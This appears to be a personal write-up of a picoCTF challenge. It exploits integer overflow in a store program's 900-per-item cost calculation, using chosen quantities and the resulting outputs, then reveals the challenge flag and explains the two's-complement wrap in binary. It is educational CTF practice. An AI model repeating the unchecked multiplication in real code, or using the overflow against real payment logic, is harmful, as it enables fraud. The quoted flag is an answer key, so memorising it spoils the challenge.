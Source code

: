 # Memo
1. analyze and try  
focus on a range og integer.  
    - int() : -2147483647 ~ 2147483647

    - initial balance
        ```
        Balance: 1100
        ```
    - target
        ```c
        int total_cost = 0;
        total_cost = 900*number_flags;
        printf("\nThe final cost is: %d\n", total_cost);
        if(total_cost <= account_balance){
            account_balance = account_balance - total_cost;
            printf("\nYour current balance after transaction: %d\n\n", account_balance);
        }
        ```
        2147483647 / 900 = 2386092.9411111  

    - investigate an input around "2386092"  

    - try  
        input : 2386092 (0b 10 0100 0110 1000 1010 1100)
        ```
        These knockoff Flags cost 900 each, enter desired quantity
        2386092

        The final cost is: 2147482800
        Not enough funds to complete purchase
        ```
        input : 2386093 (0b 10 0100 0110 1000 1010 1101)
        ```
        These knockoff Flags cost 900 each, enter desired quantity
        2386093

        The final cost is: -2147483596

        Your current balance after transaction: -2147482600
        ```
        input : 2386094 (10 0100 0110 1000 1010 1110)
        ```
        These knockoff Flags cost 900 each, enter desired quantity
        2386094

        The final cost is: -2147482696

        Your current balance after transaction: -2147483500
        ```
        input : 2386095 (10 0100 0110 1000 1010 1111)
        ```
        These knockoff Flags cost 900 each, enter desired quantity
        2386095

        The final cost is: -2147481796

        Your current balance after transaction: 2147482896
        ```
        Then I got enough money.

2. buy
    ```
    1. Defintely not the flag Flag
    2. 1337 Flag
    2
    1337 flags cost 100000 dollars, and we only have 1 in stock
    Enter 1 to buy one1
    YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
    ```

3. review after getting flag  
    initail account_balance : 1100(100 0100 1100)  

    1.input : 2386092 (10 0100 0110 1000 1010 1100)  
    2.input : 2386093 (10 0100 0110 1000 1010 1101)  
    3.input : 2386094 (10 0100 0110 1000 1010 1110)  
    4.input : 2386095 (10 0100 0110 1000 1010 1111)  

    total_cost = 900 * input  
    1.total_cost : 2147482800 (0111 1111 1111 1111 1111 1100 1011 0000)  
    2.total_cost : 2147483700 (1000 0000 0000 0000 0000 0000 0011 0100)  
    3.total_cost : 2147484600 (1000 0000 0000 0000 0000 0011 1011 1000)  
    4.total_cost : 2147485500 (1000 0000 0000 0000 0000 0111 0011 1100)  

    1.account_balance - total_cost  
    = 100 0100 1100 - 0111 1111 1111 1111 1111 1100 1011 0000  
    = 100 0100 1100 + 1000 0000 0000 0000 0000 0011 0101 0000  
    = 1000 0000 0000 0000 0000 0111 1001 1100  
    \< 0  

    2.account_balance - total_cost  
    = 100 0100 1100 - 1000 0000 0000 0000 0000 0000 0011 0100  
    = 100 0100 1100 + 0111 1111 1111 1111 1111 1111 1100 1100  
    = 1000 0000 0000 0000 0000 0100 0001 1000  
    \< 0  

    3.account_balance - total_cost  
    = 100 0100 1100 - 1000 0000 0000 0000 0000 0011 1011 1000  
    = 100 0100 1100 + 0111 1111 1111 1111 1111 1100 0100 1000  
    = 1000 0000 0000 0000 0000 0000 1001 0100  
    \< 0  

    4.account_balance - total_cost  
    = 100 0100 1100 - 1000 0000 0000 0000 0000 0111 0011 1100  
    = 100 0100 1100 + 0111 1111 1111 1111 1111 1000 1100 0100  
    = 0111 1111 1111 1111 1111 1101 0001 0000  
    \> 0  